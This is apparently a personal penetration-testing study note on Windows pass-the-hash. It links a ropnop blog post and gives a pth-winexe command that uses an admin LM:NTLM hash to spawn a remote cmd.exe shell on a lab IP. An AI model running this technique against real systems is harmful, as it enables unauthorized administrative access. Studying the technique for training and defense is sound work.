 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
---
```

[Practical Usage of NTLM Hashes - ropnop blog](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#long-live-pth)

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. 
Remember the full hash includes **both the LM and NTLM hash**, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.181.132 cmd.exe
```

See [[Evil-WinRM#Pass-the-Hash]]